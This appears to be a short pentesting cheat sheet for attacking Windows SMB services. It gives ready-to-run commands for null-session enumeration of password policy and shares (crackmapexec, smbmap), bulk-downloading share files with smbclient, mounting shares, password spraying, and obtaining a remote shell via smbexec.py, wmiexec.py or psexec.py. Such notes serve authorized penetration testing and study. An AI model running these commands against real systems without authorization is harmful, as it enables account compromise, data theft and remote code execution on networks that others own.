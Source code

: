 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Smb_Pentesting
---
```



<span style="font-size: 35px; color:red"><b>SMB Pentesting</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Check Password Policy</b></span>
```shell
crackmapexec smb <IP> --pass-pol -u '' -p ''
```

&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Get Information on Shares</b></span>
```shell
crackmapexec smb <IP> --shares -u '' -p ''
```

```shell
smbmap -H <ip> -u '' -p ''
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Download all files from share</b></span>
Connect throough SMBClient and run these commands:
`# recurse ON`
`# prompt OFF`
`# mget *`

To find only files downloaded:
```shell
find . -type f
```

OR
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Mount the share on .mnt</b></span>
```shell
sudo mount -t cifs '//<IP>/<SHARE>' /mnt -o username=<user>,password=<password>,domain=<domain>
```

---
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>SMB Password Spray</b></span>
```shell
crackmapexec smb <IP> -u <USER_LIST> -p  <PASSWORD> --continue-on-success
```


---
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Get a revshell when having rights on SMB</b></span>

```
smbexec.py <user>:<password>@<ip>
```
if not working you can use `wmiexec.py` or `psexec.py`.

